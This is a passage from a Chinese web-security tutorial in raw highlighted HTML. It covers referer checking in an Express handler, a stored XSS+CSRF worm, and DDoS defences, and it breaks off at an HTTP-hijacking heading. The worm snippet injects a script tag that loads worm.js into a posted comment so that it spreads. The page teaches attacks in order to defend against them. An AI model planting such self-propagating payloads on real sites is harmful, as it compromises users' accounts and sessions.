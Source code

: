                 }
            }
            res.json({ <span class="hljs-attr">code</span>: <span class="hljs-number">0</span> });
        } <span class="hljs-keyword">else</span> {
            res.json({ <span class="hljs-attr">code</span>: <span class="hljs-number">1</span>, <span class="hljs-attr">error</span>: <span class="hljs-string">&apos;&#x8FDD;&#x6CD5;&#x64CD;&#x4F5C;&apos;</span> });
        }
    } <span class="hljs-keyword">else</span> {
        res.json({ <span class="hljs-attr">code</span>: <span class="hljs-number">1</span>, <span class="hljs-attr">error</span>: <span class="hljs-string">&apos;&#x7528;&#x6237;&#x6CA1;&#x6709;&#x767B;&#x5F55;&apos;</span> });
    }
    <span class="hljs-comment">//} else {</span>
    res.json({ <span class="hljs-attr">code</span>: <span class="hljs-number">1</span>, <span class="hljs-attr">error</span>: <span class="hljs-string">&apos;referer&#x4E0D;&#x6B63;&#x786E;&apos;</span> });
    <span class="hljs-comment">//}</span>
})
</code></pre>
<h4 id="t182.2.4 xss+csrf(&#x8815;&#x866B;)">2.2.4 xss+csrf(&#x8815;&#x866B;) <a href="#t182.2.4 xss+csrf(&#x8815;&#x866B;)"> # </a></h4>
<p>&#x4E0D;&#x65AD;&#x4F20;&#x64AD;&#x7684;xss+csrf&#x653B;&#x51FB; 
worm.js</p>
<pre><code class="lang-js"><span class="hljs-keyword">const</span> attack = <span class="hljs-string">&apos;&lt;script src=&quot;http://localhost:3001/worm.js&quot;&gt;&lt;/script&gt;&apos;</span>;
$.post(<span class="hljs-string">&apos;/api/comments&apos;</span>, { <span class="hljs-attr">content</span>: <span class="hljs-string">&apos;haha&apos;</span> + attack });
</code></pre>
<h2 id="t193. DDOS&#x653B;&#x51FB;">3. DDOS&#x653B;&#x51FB; <a href="#t193. DDOS&#x653B;&#x51FB;"> # </a></h2>
<p>&#x5206;&#x5E03;&#x5F0F;&#x62D2;&#x7EDD;&#x670D;&#x52A1;(Distribute Denial Of Service)</p>
<ul>
<li>&#x9ED1;&#x5BA2;&#x63A7;&#x5236;&#x5927;&#x91CF;&#x7684;&#x8089;&#x9E21;&#x5411;&#x53D7;&#x5BB3;&#x4E3B;&#x673A;&#x53D1;&#x9001;&#x975E;&#x6B63;&#x5E38;&#x8BF7;&#x6C42;&#xFF0C;&#x5BFC;&#x81F4;&#x76EE;&#x6807;&#x4E3B;&#x673A;&#x8017;&#x5C3D;&#x8D44;&#x6E90;&#x4E0D;&#x80FD;&#x4E3A;&#x5408;&#x6CD5;&#x7528;&#x6237;&#x63D0;&#x4F9B;&#x670D;&#x52A1;</li>
<li>&#x9A8C;&#x8BC1;&#x7801;&#x662F;&#x6211;&#x4EEC;&#x5728;&#x4E92;&#x8054;&#x7F51;&#x5341;&#x5206;&#x5E38;&#x89C1;&#x7684;&#x6280;&#x672F;&#x4E4B;&#x4E00;&#x3002;&#x4E0D;&#x5F97;&#x4E0D;&#x8BF4;&#x9A8C;&#x8BC1;&#x7801;&#x662F;&#x80FD;&#x591F;&#x6709;&#x6548;&#x5730;&#x9632;&#x6B62;&#x591A;&#x6B21;&#x91CD;&#x590D;&#x8BF7;&#x6C42;&#x7684;&#x884C;&#x4E3A;&#x3002;</li>
<li>&#x9650;&#x5236;&#x8BF7;&#x6C42;&#x9891;&#x7387;&#x662F;&#x6211;&#x4EEC;&#x6700;&#x5E38;&#x89C1;&#x7684;&#x9488;&#x5BF9; DDOS &#x653B;&#x51FB;&#x7684;&#x9632;&#x5FA1;&#x63AA;&#x65BD;&#x3002;&#x5176;&#x539F;&#x7406;&#x4E3A;&#x8BBE;&#x7F6E;&#x6BCF;&#x4E2A;&#x5BA2;&#x6237;&#x7AEF;&#x7684;&#x8BF7;&#x6C42;&#x9891;&#x7387;&#x7684;&#x9650;&#x5236;</li>
<li>&#x589E;&#x52A0;&#x673A;&#x5668;&#x589E;&#x52A0;&#x670D;&#x52A1;&#x5E26;&#x5BBD;&#x3002;&#x53EA;&#x8981;&#x8D85;&#x8FC7;&#x4E86;&#x653B;&#x51FB;&#x6D41;&#x91CF;&#x4FBF;&#x53EF;&#x4EE5;&#x907F;&#x514D;&#x670D;&#x52A1;&#x762B;&#x75EA;</li>
<li>&#x8BBE;&#x7F6E;&#x81EA;&#x5DF1;&#x7684;&#x4E1A;&#x52A1;&#x4E3A;&#x5206;&#x5E03;&#x5F0F;&#x670D;&#x52A1;&#xFF0C;&#x9632;&#x6B62;&#x5355;&#x70B9;&#x5931;&#x6548;</li>
<li>&#x4F7F;&#x7528;&#x4E3B;&#x6D41;&#x4E91;&#x7CFB;&#x7EDF;&#x548C; CDN&#xFF08;&#x4E91;&#x548C; CDN &#x5176;&#x81EA;&#x8EAB;&#x6709; DDOS &#x7684;&#x9632;&#x8303;&#x4F5C;&#x7528;&#xFF09;</li>
<li>&#x4F18;&#x5316;&#x8D44;&#x6E90;&#x4F7F;&#x7528;&#x63D0;&#x9AD8; web server &#x7684;&#x8D1F;&#x8F7D;&#x80FD;&#x529B;</li>
</ul>
<h2 id="t204. HTTP&#x52AB;&#x6301;">4. HTTP&#x52AB;&#x6301; <a href="#t204. HTTP&#x52AB;&#x6301;"> # </a></h2>
<ul>